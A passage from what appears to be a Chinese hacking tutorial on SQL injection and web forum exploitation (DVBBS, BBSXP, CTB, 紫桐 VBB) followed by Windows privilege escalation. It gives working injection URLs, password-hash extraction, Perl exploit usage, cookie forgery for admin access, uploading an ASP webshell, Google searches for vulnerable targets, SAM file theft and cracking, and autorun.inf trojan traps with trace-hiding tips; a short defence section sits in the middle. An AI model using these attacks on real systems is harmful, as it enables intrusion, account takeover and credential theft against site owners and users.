- 1. 执行系统命令。比如目标主机是 MSSQL 数据库系统，list.asp 存在注入点。我们可以用到 xp_cmdshell 这个扩展存储过程，xp_cmdshell 是一个非常有用的扩展存储过程，用于执行系统命令，比如 dir。我们可以根据程序的不同，提交不同的语句：

```text
http://www.test.com/list.asp?id=1';exec master.dbo.xp_cmdshell 'dir'--
http://www.test.com/list.asp?id=1';exec master..xp_cmdshell 'dir'--
```

然后通过页面返回的信息，判断是否存在 SQL injection 漏洞。这只是最简单的通过字符过滤来判断。根据 IIS 配置不同，返回的信息是不定的，有时可能会显示“HTTP 500 - 内部服务器错误”，可能提示“HTTP 404 - 找不到该页”，有时显示：

```text
Microsoft OLE DB Provider for ODBC Drivers
错误 '80040e21'
ODBC 驱动程序不支持所需的属性。
/register/lostpass2.asp，行 15
```

所以返回的信息仅仅是个判断的根据，具体要判断到底是否存在漏洞、存在怎么样的漏洞，更重要的是靠经验。

甚至可以用 `exec sp_addlogin hacker` 命令在数据库内添加一个 hacker 用户，当然这个方法的限制很大，首先 ASP 使用的 SQL Server 账号必须是管理员。其次请求的提交变量在整个 SQL 语句的最后，有一些程序员采用 `SELECT * FROM news WHERE id=... AND topic=... AND ...` 这种方法请求数据库，那么如果还用以上的例子就会“news.asp?id=2;exec sp_addlogin hacker”变成“SELECT * FROM news WHERE id=2;exec sp_addlogin hacker AND topic=AND”。整个 SQL 语句在执行 sp_addlogin 的存储过程后有 AND 与判断存在，语法错误，你的 sp_addlogin 自然也不能正常运行了。

## 4、SQL 注入攻击方法

检测到漏洞以后我们就要构造语句来对服务器进行操作了。前面我们已经说 SQL injection 攻击是一种很灵活的攻击技术，目的是精心构造 SQL 语句，把特殊的 SQL 指令语句插入到系统实际 SQL 语句中并执行它，以获取用户密码等敏感信息，以及获取主机控制权限的攻击方法。但 SQL injection 攻击因构造 SQL 的语句不同、被入侵主机的系统或 Web 程序不同，具体的攻击方法是多种多样的，可以说每一次 SQL injection 攻击方法都可能不同。一般常见的 SQL injection 攻击方法有：

- 2. 从数据库中提取信息。我们可以提交一些非法的值给这个 ASP 脚本，使它执行我们想要的 SQL 语句。下面用一个虚拟的攻击过程来说明 SQL injection 的利用方法。我们要得到目标数据库的结构，提交：

```text
http://www.test.com/list.asp?id=1
UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES--
```

INFORMATION_SCHEMA.TABLES 包含的是数据库上的所有表名，我们提交的 SQL 语句为：`SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES--`，主要是用来得到数据库上的第一个表名。当 MS SQL Server 尝试去执行这个语句的时候将返回以下的信息：

```text
Microsoft OLE DB Provider for ODBC Drivers
error '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server]
Syntax error converting the nvarchar value 'table1'
to a column of data type int.
/index.asp, line 5
```

而这种 ODBC 的错误信息恰好包含了我们想要的内容。现在我们得到数据库中的第一个表名：“table1”。

- 3. 对数据库的内容进行添加和修改。

要向数据库中提交或者修改数据，我们通常会用到 INSERT 和 UPDATE 命令。

```text
例如，向数据库中添加信息：
http://www.test.com/list.asp?id=1;
INSERT INTO 'admin_login' ('login_id', 'login_name', 'password', 'details') VALUES (666,'hacker','pass123','NA')--
```

这样我们便成功地在数据库中增加了一个用户 hacker，密码为 pass123。向数据库中修改数据用到的是 UPDATE 命令，例如更换 hacker 的密码为 pass456：

```text
http://www.test.com/list.asp?id=1;
UPDATE 'admin_login' SET 'password' = 'pass456' WHERE login_name='hacker'--
```

> （注意：以上例举语句仅仅是个参考，list.asp 页面也是虚拟的，旨在说明原理，实际情况视程序而定，不一定成功。）

学习“SQL Injection 攻击”需要有 ASP、PHP 等 Web 编程基础以及了解 SQL 基本语法才行，而这些基础知识我们这里不可能具体介绍了。有些刚入门朋友如果看不懂，我们下面会介绍一些攻击实例，你只能先“依样画葫芦”，然后自己抽空去好好学习一下这些基础知识。

## 三、动网论坛漏洞攻击实例

动网论坛（DVBBS）是一款由 WWW.ASPSKY.NET 开发和维护的适用于 Windows NT 环境的高效 ASP 论坛，如图 1。它是一个功能强大、设计完善、界面大方、源代码开放的 ASP 论坛。它的体系结构更经过特别的优化，运行快速，稳定，系统资源占用小，而且提供了 ACCESS 和 MSSQL 数据库环境。据说它的用户已近百万，网上许多网站都在使用它，所以可以说它是目前国内最流行的 ASP 论坛。


图 1

DVBBS 的代码虽然经过多次修改，消除了大批安全隐患，并引入了很多的安全措施，但由于其规模过大、代码过多，难免出现遗漏，整个论坛多个文件中还是不可避免地存在 SQL Injection 漏洞，非法用户可以很快地智能破解任意用户口令或进行其他恶意攻击，下面我们就来看看如何利用这些 DVBBS 漏洞进行攻击。

## 1、tongji.asp 脚本漏洞攻击

测试环境：DVBBS 6.0、DVBBS 6.0 SP1、DVBBS 6.0 SP2（2003/05/04 在 DVBBS 下载的）

由于动网论坛的 tongji.asp 文件没有过滤用户提交传递给 SQL 查询的输入，导致远程攻击者可以利用这个漏洞进行 SQL 注入攻击，进而威胁论坛或服务器安全。

假设现在有一个动网论坛的网址是 `http://192.168.0.2/dv/bbs/`，在 IE 地址栏输入：

```text
http://192.168.0.2/dv/tongji.asp?orders=2&N=2%20UserName,
```

（注意：UserName 后面有逗号）系统就会返回如下的结果（如图 2）：

```text
document.write('□');document.write('admin');document.write('');document.write('□');document.write('greenice');document.write('');
```

提交的请求里把 UserName 改成 userpassword，比如：

```text
http://192.168.0.2/dv/tongji.asp?orders=2&N=2%20userpassword,
```

（注意：userpassword 后面有逗号）然后在 IE 里提交这个请求，返回结果（如图 3）：

```text
document.write('□');document.write('469e80d32c0559f8');document.write('');document.write('□');document.write('83aa400af464c76d');document.write('');
```

看到了吗？admin 的密码是“469e80d32c0559f8”，greenice 的密码是“83aa400af464c76d”。这不是明文密码，而是经过 16 位 MD5 加密后的密码。再看 admin、greenice 他们在论坛中的身份，在 IE 中输入：

```text
http://192.168.0.2/bbs/dvbbs6/bbs/tongji.asp?orders=2&N=2%20userclass,
```

（注意逗号）返回结果（如图 4）：

```text
document.write('□');document.write('管理员');document.write('');document.write('□');document.write('贵宾');document.write('');
```


呵呵，看的是不是有点乱，不用管“document.write”，它是个输入输出函数！而 admin、greenice 就是用户名了，光有用户名当然没有用，下面我们让它来“招出”密码……

发现没有，每一条都是对应的哦，admin 是论坛的管理员，greenice 是贵宾。现在得到了管理员用户名和密码，是不是就可以登录了呢？没有这么简单，密码是 MD5 加密的，不能直接使用。

因为 MD5 加密信息是不可逆向换算成明文，我们只能以暴力猜解的方式来猜解其密码。网上有许多 MD5 加密信息破解工具，比如：HackPass.exe，如图 5。只要你以：

- admin: 469e80d32c0559f8
- greenice: 83aa400af464c76d
- ……


这样的形式把用户名和 MD5 密码信息一一对应起来保存为 txt 文件格式，在 HackPass.exe 的“密码文件”里选择这个 txt 文件，接着在密码算法中选择：“MD5 码_16Bytes”，接着可以用穷举法或者字典法进行猜解了。如果猜解成功就会在右边显示明文密码的结果。一般简单点的密码比如纯数字的密码是非常容易破解的，而一些复杂的密码则可能要花点时间才能破解。如果你不想花时间在暴力破解上，或者遇到了很强壮的密码时，其实也可以不破解明文密码而使用 Cookie 欺骗方法来进行登录，关于 Cookie 欺骗具体方法我们在下面会讲到。

## 2、logout.asp 脚本漏洞攻击

测试环境：DVBBS 6.0、DVBBS 6.0 SP1、DVBBS 6.0 SP2

动网的 logout.asp 页面中也存在着 SQL injection 漏洞。利用这个漏洞可以先以一般用户登录，然后在 Cookie 中构造 membername 请求 logout.asp，使得程序所执行的 SQL 查询语句中包含要利用逻辑关系添加的子语句来构造参数请求页面，而返回页面可以包含用户注册名、id、passwd 等。网上有高手写了这个漏洞测试攻击的 perl 程序：

```c
/* 获取任意用户 MD5 加密信息的测试程序 */
#!/usr/bin/perl
#Codz By PsKey<PsKey@hotmail.com>
#Exploit of DVBBS's logout.asp

# 本脚本针对动网论坛 logout.asp 文件缺陷而写，可以推算出所有用户
# MD5 加密密码，另外可以自动破解后台管理员 ID、username、password
# 脚本参照最新版本编写，若低版本出现不能用的情况，请自行修改程序
# 脚本利用方法：
# 1: 在目标论坛以 ilikecat/catlikeme 注册一用户，并得到此用户的 userid
# 2: 再另注册一位用户(此步不可少)
# 3: 运行脚本，按帮助输入命令参数
# 如果是 MSSQL 版，请把这段糟糕的脚本扔到一边

$l=1;
use Socket;
use Getopt::Std;
getopt('hpwium');
......
......
具体代码见（见光盘 DVBBS crack.pl）
```

可以用 perl 解释器来执行这个代码，关于 perl 解释器的用法我们已经在上一章中讲过了，输入命令：`perl dvbbscrack.pl`，显示了用法，如图 6：

```text
Usage: dvbbs -h <Host> [-p <port>] -w <path> -i <userid> -m <mode> [-u <user>]
-h  = hostname you want to attack
-p  = port, 80 default
-w  = the web path such as "/dvbbs"
-i  = the userid of ilikecat
-m  = only two choice, b<Background> and p<proscenium>(This option need -u)
-u  = the user you want to crack
```

```text
Eg: 1. Crack proscenium

dvbbs -h www.target.com -p 80 -w /
dvbbs -i 2 -m p -u admin

2. Crack background

dvbbs -h www.target.com -p 80 -w /
dvbbs -i 2 -m b
```

一般我们只要攻破一个管理员的密码就可以获得系统控制权了，不需要获取所有用户的密码，所以一般只要选用 Crack proscenium 模式针对某个管理员进行破解就行了。


从上面的说明我们可以看到，如果我们要猜测某个管理员账户的密码的话，必须具备以下几个条件：`-h www.target.com` 是目标主机地址，`-p 80` 则是其 Web 服务端口；`-w /dvbbs` 则表示的是动网论坛所在的路径；`-i 2` 表示的是你刚才注册 ilikecat 或其他用户名的 userid。这个 userid 可以通过论坛“查询个人资料”功能获得，点击用户名即可在地址栏看到 `disuser.asp?id=11740`。

地址栏里显示的是：`disuser.asp?id=11740`。这里的 ID=11740 就是 userid。`-m p` 表示选择 Crack proscenium 攻击模式，`-u admin` 则表示其中一个管理员用户名。动网论坛提供“用户列表”功能（toplist.asp），可列出所有用户名；选择“管理员团队”即可找到管理员用户名。

- 1. 第一步：注册一个用户并登录，得到该用户的 userid。建议使用非中文用户名；若默认示例用户名/密码不可用，可替换为自己注册的信息。
- 2. 第二步：再开一个新注册窗口另注册一任意用户（此步不可少），并保持前一个登录窗口不要关闭。
- 3. 第三步：通过 toplist.asp 查看论坛管理员用户名，选择一个非中文管理员用户名。
- 4. 第四步：打开 Perl 解释器（或已编译程序），执行命令开始破解。

```text
perl dvbbscrack.pl -h www.target.com -p 80 -w / -i 11740 -m p -u admin
```

程序开始逐位猜解 admin 的 MD5 加密密码信息（共十六位），经过等待后即可得到管理员口令的 16 位 MD5 加密信息：`045e3c90104aec0d`，如图 10，然后就可以用刚才我们已经介绍的 MD5 暴力猜解工具进行破解。当然有时候由于管理员设置的密码比较复杂，暴力猜解一时无法破解明文密码。这时我们可以用 Cookie 欺骗的方法进行登录，也能拥有管理员权限，下面我们来看看如何进行 Cookie 欺骗登录。


我们已经得到了管理员 admin 的 16 位 MD5 加密的密码：`045e3c90104aec0d`，不用破解成明文，我们利用 Cookie 也已经可以登录了，具体步骤如下：

首先随便以一个普通用户登录，登录时注意选上“保存 Cookie”（注意：一定要保存 Cookie），如图 11。然后打开 Cookie 编辑工具 iecv.exe，在众多 Cookie 中找出其中这个论坛的 Cookie，如图 12。然后我们开始来修改这个 Cookie 的信息，再选中下面的“aspsky”，在“edit”中选择“edit the cookie’s content”，原来的 cookie 内容是：

```text
userid=11740&usercookies=3&userclass=部落游侠&username=bluefox&userhidden=1&password=ee48db721228b066

userid=1&usercookies=3&userclass=管理员&username=admin&userhidden=1&password=045e3c90104aec0d
```


图13

修改的地方有：userid、userclass、username、password 四个地方。如图13，1 是 admin 的 userid，ID 可以通过查看 admin 个人资料得到。usercookies 类型不用管它，userclass 要修改成管理员，username 当然也要变成 admin，userhidden 是表示是否隐身登录，也不用改了。最后是最重要的 password，把它换成刚才得到的 admin 的 MD5 加密的密码 045e3c90104aec0d。

这样就大功告成，你只要保存修改后关闭所有的论坛窗口，然后再重新打开论坛，你会发觉你已经是管理员 admin 了。如图14，看到可爱的小兔子图标了吗，这就是管理员标志，所以说明我们的 COOKIES 欺骗已经成功。有了论坛的管理员权限能做些什么就不用说吧。

## 3、messanger.asp 脚本漏洞攻击

测试环境：DVBBS 6.0.0、DVBBS 6.1.0 版本。

这个漏洞在动网其它不少页面中存在。比如 messanger.asp 页面提交“删除草稿”请求的代码中也存在 SQL Injection 问题，利用这个漏洞攻击步骤如下：

- 1. 先在论坛上注册一个用户名并登录，登录时选择一定要“保存 cookie”，然后到“个人控制面板→用户短信服务中”撰写短消息，找个发件人（必须是论坛中的用户）随便写点内容后保存到发件箱，如图15。
- 2. 构建一个 HTML 提交表单来利用此漏洞来提交 SQL 请求，如图16，代码如下：

```html
<form action="http://www.target.com/dvbbs/messanger.asp?action=删除草稿" method="post">
  <input type="text" name="id" width="32">
  <input type="submit">
</form>
```

这里的 http://www.target.com/dvbbs/ 需要替换成你要攻击的实际目标地址。

图14

图15

图16

## 神功初成 不经意间 漏洞攻防

图17

为数据类型为 int 的列时发生语法错误。/bbs/messenger.asp，行 619。这里的“f3c60492ab0819b9”就是 admin 的前台密码。

```sql
select password from admin where username=0x610064006d0069006e00 and password>7
```

得到 admin 的后台管理密码也是：f3c60492ab0819b9。

第三步：我们就要利用这个 HTML 文件来提交下边的网页信息，比如我们要测试用户名为 admin 的管理员账号（注意：这种方法不能攻击中文字符的账号），先把 username 转换成 SQL Encoder 编码。这里我们用 SQL encoder.exe 工具来转换，在输入框中输入：admin，在下方的显示栏中就显示：0x610064006d0069006e00，如图17，这就是 admin 的 SQL Encoder 编码。接下来我们就可以提交精心构造的请求了，这些请求的出错信息中会显示管理员的密码。具体请求如下：

```sql
select userpassword from [user] where username=0x610064006d0069006e00 and userpassword>7
```

把以上代码复制到 HTML 文件的输入框中，提交后得到结果（如图18）：

图19

图18

Microsoft OLE DB Provider for SQL Server 错误 '80040e07'。将 nvarchar 值 'f3c60492ab0819b9' 转换为数据类型为 int 的列时发生语法错误。

图20

有朋友可能要问了：什么是前台密码和后台密码呢？有区别吗？管理员有两个密码？是的，在动网论坛中管理员可以设置两个密码，一个是和一般用户一样从论坛的登录页面上登录、对论坛上的帖子等进行管理的密码。另一个密码则是用来从 admin_index.asp（默认的管理登录页面）页面登录的，如图19，它用来对论坛配置的各种参数、用来增删版主、管理用户资料等等。

## 经典漏洞攻防初成

这里才是管理员真正的管理页面，所以获取后台密码是很重要的。当然网上许多动网论坛的管理设置密码时往往麻痹大意，两个密码设置得完全相同，像我们上面遇到的那个例子就是两个密码一样的。

接着当然是通过破解明文密码和 cookie 欺骗来登录 admin_index.asp 管理页面了，登录进入管理后台后，你就可以掌握这个论坛的生杀大权了：论坛的物理路径、停止和关闭论坛，设置论坛的版块、颜色，向用户发送消息，删减用户或修改资料等等……如图20，反正随你折腾吧。如果玩腻了论坛，你还可以通过论坛上传木马来控制整个服务器，如何上传呢？很简单，只要修改论坛的设置，在它的文件上传类型添加 asp、exe 类型，具体设置位置在管理页面的“论坛版面管理”-“高级管理”中，如图21。

接着运行上传 asp 后门，我们这里用了常见的海阳顶端网 asp 木马 xpnet.asp，如图22，这是一个功能强大的 ASP 木马，可以浏览、上传、下载文件，运行 CMD 命令、执行 exe 程序等。接着你可以利用这个 ASP 木马随便挑一只你喜欢的“木马”上传并执行它，就可以远程控制这台服务器了，这里具体的就不用介绍了吧。如果遇到权限不够的情况，可以上传提升权限的小程序先提升权限。怎么样，可怕吧，一个小小的脚本漏洞导致的不只是论坛的失陷而是整台服务器的沦陷。除了上面介绍的几个漏洞外，动网其它不少页面如 myfile.asp、admin_recycle.asp、BuyPost.asp 等也存在问题。动网论坛特别是动网免费版由于代码公开，分析的人也多，漏洞发现很多，你应该尽量多关注动网先锋论坛的补丁信息，及时补上最新的漏洞。其次论坛功能开放得越多，存在漏洞的机会也就越大，所以尽量关闭不必要的功能，并把一些默认的页面移除或更名，比如 intall.asp、toplist.asp、admin_index.asp 等页面，防止有人利用这些页面来进行攻击和入侵。

图21

图22

然后接着到论坛发帖子来上传 asp 后门程序。

## 四、其它流行论坛漏洞实战

### 1. BBSXP 论坛删除漏洞攻击

相信大家都听过 BBSXP 论坛吧，它的前身就是 BBS3000，如图1。它是一款我们国内比较流行的开放源码的 Asp 论坛程序，由 WWW.BBSXP.COM 开发和维护。由于作者采用的安全防护措施过于简单，导致整个论坛多个文件存在 SQL Injection 漏洞，非法用户可以很快破解任意用户口令或进行其他恶意攻击，我们利用这些漏洞可以掌握整个论坛的生杀大权，甚至可以攻占整个服务器。

图1

BBSXP 在对用户输入和 cookie 的审查上竟然只用了类似如下的简单处理：

```asp
if instr(username,"'")>0 then:error("<li>非法操作"):end if
if Request.Cookies("username")="" then
  error("<li>您还未<a href=login.asp>登...")
```

这里仅仅限制单引号，所以 BBSXP 的 login.asp、vote.asp、usercp.asp、register.asp、favorite.asp、recycle.asp、RecoverPasswd.asp、prison.asp、play.asp、friend.asp、faction.asp、bank.asp、profile.asp 等大量文件都存在 SQL Injection 问题。我们这里具体以 register.asp 页面漏洞的攻击来讲解，BBSXP 3.0 以前版本的 register.asp 页面存在严重问题，只要通过提交如下请求：

```text
http://www.target.com/asp/bbsxp/bbsxp/register.asp?menu=Check&username=root<|>and(len(userpass)=6)and<|>1

http://www.target.com/asp/bbsxp/bbsxp/register.asp?menu=add&url=&username=root<|>and(len(userpass)=6)and<|>1&userpass=asd&Submit1=...
```

可判断设立条件是否成功；若返回“您输入的密码错误”，则说明 root 用户的密码长度是 6 位。接着使用 left()、right() 可以推算出密码了。手工推测很吃力，我们可以根据提交一个请求后的返回值判断我们设立的条件成功与否，有黑客以此写了一个密码破解 PERL 程序，代码如下：

```perl
#!/usr/bin/perl
#Codz By PsKey<PsKey@hotmail.com>
#2003/3/29
#This Script can crack BBSXP user's password
...
（详见光盘）
```

具体的攻击步骤如下：

- 第一步：首先把光盘中的代码复制，然后建立一个记事本粘贴上去，保存完毕后，把后缀名改成 .pl，比如命名为 bbsxp.pl，当然你的系统要安装 perl 解释器哦。
- 第二步：进入 www.google.com 搜索 bbsxp 论坛，随便找一个 BXBBS 论坛，以 http://www.****.com/bbsxp 为例，如图2，注册一个用户进入论坛，然后查看“管理团队”，找到管理员的用户名，如图3，“听海观涛”“admin”等都是管理员，我们就拿“听海观涛”这个管理员来测试，呵呵，对不起了。
- 第三步：我们用 PERL 解释器执行 bbsxp.pl 代码，键入：perl bbsxp.pl，如图4，用法如下：

```text
F:\Perl\bin>perl bbsxp.pl
Usage: bbsxp.pl -h <Host> [-p <port>] -w <way> -u <user>
-h = hostname you want to crack
-p = port, 80 default
-w = the path of the weak file
-u = the user you want to crack
```

```text
Eg: bbsxp.pl -h www.target.com -p 80 -w /bbsxp/register.asp -u root
```

-h 参数是目标主机地址，-p 参数是 WEB 端口，-w 是漏洞页面的位置，-u 参数则是你要破解密码的用户名。好，我们开始测试攻击，输入：perl bbsxp.pl -h www.****.com -p 80 -w /bbsxp/register.asp -u 听海观涛。呵呵，如图5，很快就破解管理员密码了，接着你就可以用这个账号登录上去管理这个 BBSXP 论坛了。如果要进入后台管理，可以从 admin.asp 页面进行登录，如图6，至于你想如何“管理”论坛或者再继续深入就不用讲了吧。

图2

图5

图3

图6

### 2、CTB 论坛脚本漏洞攻击

CTB 论坛是一个比较流行的免费的 PHP 论坛，在网上常能看到它，如图7，它也存在着严重的漏洞，先看如下代码：

图7

```php
/admin/main.php
// 获取 GET 变量
if (is_array($_GET)) {
    foreach($_GET as $k=>$v) {
        if (is_array($_GET[$k])) {
            foreach($_GET[$k] as $k2=>$v2) {
                $return[$k][$k2] = $v2;
            }
        } else {
            $return[$k] = $v;
        }
    }
}
...
$mod = isset($_GET['mod']) ? $_GET['mod'] : $_POST['mod'];
if (!file_exists($mod.".php")) {
    $mod = "mainright";
}
require_once($mod.".php");

// 初始化类变量
$ctb = new Module;
$ctb->set = $set;
$ctb->tplPath = "./templates";
$ctb->input = $return;
$ctb->sess = isset($_COOKIE["sess_adminname"]) ? $_COOKIE : $_SESSION;
$ctb->execute();
```

这里没有任何验证，我们看看添加管理员的文件：

```php
/admin/systemuser.php
class Module extends CommonClass
// 系统管理模块子类
{
    function execute() {
        switch($this->input['action']) {
            ...
            case 'addSystemUser':
                $this->addSystemUser();
                break;
            ...
        }
    }

    function addSystemUser()
    {
        // 输入数据简单格式化
        $this->inputCheck("main.php?mod=systemuser&action=showSystemUser");
        // 执行添加操作
        $this->file = "../".$this->set[dataPath]."/users/list.php";
        $systemLine = $this->select(4, $this->input['systemUserName']);
        ...
    }
}
```

依然没有验证，一路顺利啊！攻击方法如下：

先注册一个用户：登录 ID：cat，用户名：hacker，密码：12345678，接着提交如下 URL：  
http://www.target.com/ctb/admin/main.php?mod=systemuser&systemUserName=dog&systemUserMode=1&action=addSystemUser

现在你已经是超级管理员了，再提交如下 URL 后台登录：  
http://www.target.com/ctb/admin/main.php?mod=login

输入管理员名称：cat 和管理密码：12345678，就能顺利进入管理页面。

## 五、紫桐论坛漏洞利用攻击

```php
echo "<p><a href=\"templates.php?step=".($step+1)."&reset=1\">continue2 --> </a></p>";
```

紫桐论坛也是一个知名的免费提供开放源码的 BBS，它由国外的代码汉化而来，网上也有不少人在用它，如图8。这个论坛也存在着严重漏洞，它的攻击方法：

图8

图8

在紫桐 VBB 2.2.8 版本的 admin 目录下有一个文件，叫做 templates.php。这个文件没有经过任何密码保护，任何人都可以直接在 IE 中通过：

http://www.target.com/admin/templates.php

图9

调用它。这个页面可以一步步地（step1—step7）获得数据库的用户名密码等信息，可以修改论坛的各种设置，如图9，甚至可以添加一个用户为管理员：“Please fill in the form below to set yourself up as an administrator...”，如图10，只要填入用户名和密码及 EMAIL 就行。我们分析一下 templates.php 文件的代码：

```php
echo "<p><a href=\"templates.php?step=".($step+1)."\">continue --></a></p>";
```

多出来了一个 continue2。点击上面的 continue 什么都不会发生，然后下一步就可以把自己设置成为论坛的管理员。如果点击 continue2，这个论坛所有的数据表都要被清空。这个文件的初始目的应该是帮助管理员修复 VBB 数据库并重建管理员账户的。

接下来，还可以进行第三步（step3）和第四步（step4）……

```text
step 3 有 2 个链接：

echo "<p><a href=\"templates.php?step=".($step+1)."\">continue ---></a></p>";
```

```php
echo "<p><a href=\"templates.php?step=".($step+1)."&reset=1\">continue2 ---></a></p>";
```

点击 continue 后什么都不会发生。而 step 4 注释如下：

```php
/*
====================
STEP 4
-------
+ reset db
+ set up tables
====================
*/
```

`!!!! + set up tables!!!!`


图10

这个文件实际上就是 install.php。此漏洞有可能是程序员有意留下的后门，他把 install.php 略加修改后，改名为 templates.php。

其实各种各样的脚本漏洞还有许许多多，我们这里只能讲这些了。可能有些新手朋友一时间找不到有漏洞的论坛，其实 GOOGLE 等搜索引擎就是你寻找这些论坛的最好的工具，只要输入：“bbsxp/index.asp”、“admin/templates.php”之类关键字进行搜索就行了。

## 六、防范脚本漏洞攻击

脚本漏洞攻击现在越来越流行，对于防范脚本漏洞攻击我们主要应该注意以下几点：

- 1. 脚本漏洞产生的绝大多数是因为程序员编写程序时疏忽或者缺乏安全编程知识而造成的，所以在编写脚本程序时不能只从功能考虑，还要考虑安全因素。要注意对特殊字符的过滤问题，如：`'`、`"`、`&`、`$`、`#` 等。
- 2. 对于自己编写的脚本程序，一定要对程序源码进行保密，不要随便向任何人透露自己的源码，更不要在网上发布。因为一旦代码公开，往往会被分析并发现其中漏洞。
- 3. 不要随便使用他人的程序代码。他人的程序中很容易有漏洞，甚至故意留下后门代码。采用免费代码也要慎重，若必须使用，最好全面检查程序包中的文件并关注安全漏洞信息，及时修补。
- 4. 解决 SQL Injection 问题。应从程序本身入手，对单引号、双引号、分号等特殊字符及 QUERY_STRING 环境变量进行过滤；不能仅过滤 URL 参数，也要过滤表单提交数据；对所有来自 Web 服务器外部、可被用户控制的数据进行过滤或转换。
- 5. 可以限制 Web 应用程序所用的数据库访问账号权限，减轻 SQL 注入式攻击的危害。有条件装个 IDS 更好，可以阻挡大部分攻击者。
- 6. 对服务器做一些相应的安全设置，比如在注册表中把 "shell.application"、"wscript.shell" 等用于创建脚本命令通道的脚本对象进行改名或删除，如图1，从而限制系统对“脚本 SHELL 对象”的创建。还应该删除服务器上一些危险的扩展存储过程，比如 xp_cmdshell。这样可以防止攻击者通过脚本漏洞上传和执行后门，大大增加服务器的安全性。


图1

## 第三节：Windows 系统提权

我们前面已经讲述了如何利用各种漏洞攻陷一个 Windows 2000 系统。但是在入侵过程中，由于利用不同漏洞入侵后得到的权限并不一样。有些是直接可以得到 system 或管理员权限，可以在系统上为所欲为；但有些则不是，像 Unicode 漏洞、ASP 映射漏洞、media nsiislog.dll 漏洞，利用这些漏洞只能得到普通权限的访问权，许多事情都干不了。特别是在 NTFS 分区的系统里，如果权限小，连文件都可能访问不了，更不要说改系统设置、安装木马、嗅探器、清除日志等活动了。所以在获取访问权后，黑客们一般要做的是提升自己的权限，当然已经是 system 或管理员权限的就免了。下面我们说一些最常见的 Windows 系统下提升权限的方法。

要提升权限，前提当然是攻击者已经获得了系统一定的访问权限，在此基础上才可以谈提升权限。提升的目标通常是把权限提升到管理员组权限，主要有以下几种方法：

SAM 即安全账号管理数据库（Security Accounts Management Database），它是 Win NT/2000 操作系统的核心，其中存放了本地机和操作系统所控制域的组账号及用户账号信息。SAM 中开始部分存放了域中各组的描述信息和权限信息，接下来的部分存放了域用户的描述信息和加密后的密码数据等。超级用户 Administrator 的密码存放在 SAM 文件中最后一个 “Administrator” 字串之后。SAM 文件位于 `%windir%\system32\config` 文件夹下，但由于系统启动后就对其保护不能复制，所以我们一般下载系统的备用修复文件：`%windir%\repair\sam`。如果你认为手工下载太麻烦，也可以用流光等工具直接下载下来，如图 1。

### 1. SAM 密码破解

获得了一定权限的访问权后，要提升到管理员权限，其中最直接的方法就是获取管理员 Administrator 的密码。如何获得管理员密码呢？很简单，就是把系统存放用户密码等信息的 SAM 文件下载下来，然后在本地用软件进行暴力破解它。


图1

拿到 sam 文件，然后用 L0pht、john 等软件进行破解，只要肯花时间，大多数管理员的密码是可以破解的。L0pht 是一个著名的 NT 口令破解工具，效率相当高，是面向 Windows 工作站的密码破解工具。这里是较新的 4.0 版本，它甚至宣称：在 P300 机器上不到 48 小时可以破解 90% 的超级用户（Admin）口令，18% 不到 10 分钟就可以搞定。L0pht 安装需要注册码，所以得把破解软件 klc4.exe 拷贝到安装目录下运行，按提示得到注册码完成注册然后才可以使用。

接着打开 L0pht，创建一个新任务，然后在“导入”菜单中选择“导入 sam 文件”，把下载下来的 sam 导入，然后按“开始破解”就可以了。慢慢等，快则几分钟，慢则一两天，一般管理员密码都能出来，如图 2。


图2


图3

其他常用的 NT 口令破解软件还有 john、SAMInside 等。john 是一个老牌的 NT 口令破解程序，不过它是一个命令行工具，操作界面不够方便，但速度也很快。SAMInside 也是个图形界面的暴力破解 NT 密码（LMHash/NTHash）软件。该软件没有字典功能，而是从你选定的字符里组合去破解得到的 LMHash/NTHash，且可以同时对几个 LMHash/NTHash 进行暴力破解，速度不受影响。SAM 密码破解法虽然简单，但它有两个缺点：

- 1. 我们并不一定能下载 `%windir%\repair\sam` 文件，特别是当我们的权限很小而管理员又对文件访问权限作了设置时，我们可能根本就访问不了此文件夹，更不用谈下载了。
- 2. `repair\sam` 文件是上次系统备份时的账号列表，甚至可能是第一次系统安装时的，所以破解出来的密码不一定是管理员当前使用的口令，而可能是以前使用过的口令。这得看管理员有没有经常改密码的习惯，如果他的密码一直没改，那破解出来的密码才能用。

### 2. 木马陷阱法

前面我们是以破解管理员密码的方法来提升权限，接下来要介绍的是用木马陷阱来提升权限。

既然要使用木马做陷阱，那当然要上传木马了，接着就是运行木马。不过自己运行木马是不行的，因为大多数木马不能在 Guests 组身份下运行，这与它们添加自动运行的方式有关。在 NTFS 分区的系统中，如果没有权限改写注册表的自运行键值，或者不能写入 `%system%\system32` 系统文件目录，就不能成功执行木马。而且即使有能在 Guests 组身份下运行的木马被你运行了，但此木马的访问权限还是普通 Guest 权限，和我们的目标“提升权限”一点用处都没有。

应该如何用木马做陷阱帮我们提升权限呢？简单地讲，就是把木马上传上去，然后用各种方法让管理员自己来运行我们的木马，从而使木马具有管理员权限，而我们也就有了管理员权限。有哪些方法可以让管理员来运行我们的木马呢？

- 1. 如果对方 Windows 服务器用的是 FAT 分区，默认情况下普通用户对大量文件（甚至系统文件）可写，攻击者可通过在启动目录放置木马等方式，在系统重启后获得本地登录用户权限。当前主机大多已是 NTFS 分区。
- 2. 如果目标系统是 NTFS 且目录权限严格，直接写系统文件或管理员目录通常不可行，可在可写的非关键分区投放小木马，并与常用程序进行合并（如图4）以诱导管理员执行。


当管理员使用该程序时，会在不知不觉中执行木马。也可以利用 `autorun.inf` 文件让管理员帮助启动木马，例如在可写的 D 盘根目录写入自动运行配置：

```ini
[autorun]
open=木马名字.exe /autorun
```

然后将 `autorun.inf` 与木马程序一起上传到目标 D 盘根目录；当管理员双击打开该盘时，不再进入根目录，而是执行伪装程序，从而触发木马。

> 提示：用 `autorun.inf` 的方法较简单，但管理员可能察觉到双击 D 盘行为异常。可让木马运行后自动删除原文件，或将清理程序与木马捆绑，在运行时一并清理 `autorun.inf`，以降低暴露风险。

木马类型可按需求选择，如远程控制、bindshell 后门，或用于窃取管理员密码的“Windows 密码大盗”“Gina 木马”等，以提高获取管理员口令的成功率。

### 3. 常用权限提升工具

除前述方法外，还可借助专用提权工具，利用 Windows 本地溢出漏洞或系统缺陷实现权限提升。下面介绍常见的 Windows 2000 提权工具。

### 第一个工具：PipeUpAdmin

该工具利用命名管道预测漏洞进行提权。在本机普通用户或 Guests 组用户环境下运行后，可将当前账户加入管理员组。

```bash
D:\>pipeupadmin
PipeUpAdmin
Maceo <maceo@dogmile.com>
